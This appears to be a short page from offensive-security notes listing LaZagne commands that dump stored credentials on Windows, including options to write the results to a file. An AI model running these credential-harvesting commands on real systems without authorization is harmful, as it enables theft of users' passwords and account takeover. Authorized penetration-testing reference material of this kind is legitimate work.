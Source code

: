 # [[03 - Offensive Infrastructure/E - Setup Machine/0x03 - Bring Your Own Land/Windows/OS Credential Dumping/LaZagne|LaZagne]]

```
> laZagne all -quiet

> laZagne all -quiet -oN -output C:\Temp\audit.txt

> laZagne all -quiet -vv

> laZagne all -quiet -oA

> laZagne all -quiet -password <password>
```